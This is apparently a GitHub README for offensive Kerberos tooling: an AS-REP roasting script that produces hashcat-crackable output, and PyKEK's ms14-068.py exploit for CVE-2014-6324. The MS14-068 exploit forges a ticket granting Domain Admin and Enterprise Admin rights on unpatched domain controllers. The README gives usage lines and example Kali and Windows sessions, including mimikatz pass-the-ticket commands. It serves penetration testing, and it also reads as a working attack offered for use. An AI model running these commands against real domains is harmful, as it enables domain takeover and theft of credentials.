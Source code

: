 # as-rep-roast

# Author
Jason Martinsen

Python code to execute an AS-REP Roasting attack.

USE ONLY AGAINST AUTHORIZED TARGETS

### Usage :
```
USAGE:
as-rep-roast.py -u <userName>@<domainName> -d <domainControlerAddr>

Hashcat compatible output will be piped to screen and to hashcat.out file.
```

This code is based on the code from the below project...

Python Kerberos Exploitation Kit
===

PyKEK (Python Kerberos Exploitation Kit), a python library to manipulate KRB5-related data. (Still in development)

For now, only a few functionalities have been implemented (in a quite Quick'n'Dirty way) to exploit  MS14-068 (CVE-2014-6324) .

More is coming...

# Author
Sylvain Monné

Contact : sylvain dot monne at solucom dot fr

http://twitter.com/bidord

Special thanks to: Benjamin DELPY `gentilkiwi`

# Library content
* kek.krb5: Kerberos V5 ([RFC 4120](https://tools.ietf.org/html/rfc4120)) ASN.1 structures and basic protocol functions
* kek.ccache: Credential Cache Binary Format ([cchache](http://www.gnu.org/software/shishi/manual/html_node/The-Credential-Cache-Binary-File-Format.html))
* kek.pac: Microsoft Privilege Attribute Certificate Data Structure ([MS-PAC](http://msdn.microsoft.com/en-us/library/cc237917.aspx))
* kek.crypto: Kerberos and MS specific cryptographic functions

# Exploits
## ms14-068.py
Exploits [MS14-680](https://technet.microsoft.com/en-us/library/security/ms14-068.aspx) vulnerability on an un-patched domain controler of an Active Directory domain to get a Kerberos ticket for an existing domain user account with the privileges of the following domain groups :
- Domain Users (513)
- Domain Admins (512)
- Schema Admins (518)
- Enterprise Admins (519)
- Group Policy Creator Owners (520)

### Usage :
```
USAGE:
ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr>

OPTIONS:
    -p <clearPassword>
 --rc4 <ntlmHash>
```
### Example usage :
#### Linux (tested with samba and MIT Kerberos)
```
root@kali:~/sploit/pykek# python ms14-068.py -u user-a-1@dom-a.loc -s S-1-5-21-557603841-771695929-1514560438-1103 -d dc-a-2003.dom-a.loc
Password: 
  [+] Building AS-REQ for dc-a-2003.dom-a.loc... Done!
  [+] Sending AS-REQ to dc-a-2003.dom-a.loc... Done!
  [+] Receiving AS-REP from dc-a-2003.dom-a.loc... Done!
  [+] Parsing AS-REP from dc-a-2003.dom-a.loc... Done!
  [+] Building TGS-REQ for dc-a-2003.dom-a.loc... Done!
  [+] Sending TGS-REQ to dc-a-2003.dom-a.loc... Done!
  [+] Receiving TGS-REP from dc-a-2003.dom-a.loc... Done!
  [+] Parsing TGS-REP from dc-a-2003.dom-a.loc... Done!
  [+] Creating ccache file 'TGT_user-a-1@dom-a.loc.ccache'... Done!
root@kali:~/sploit/pykek# mv TGT_user-a-1@dom-a.loc.ccache /tmp/krb5cc_0 
```
#### On Windows

```
python.exe ms14-068.py -u user-a-1@dom-a.loc -s S-1-5-21-557603841-771695929-1514560438-1103 -d dc-a-2003.dom-a.loc
mimikatz.exe "kerberos::ptc TGT_user-a-1@dom-a.loc.ccache" exit`
```
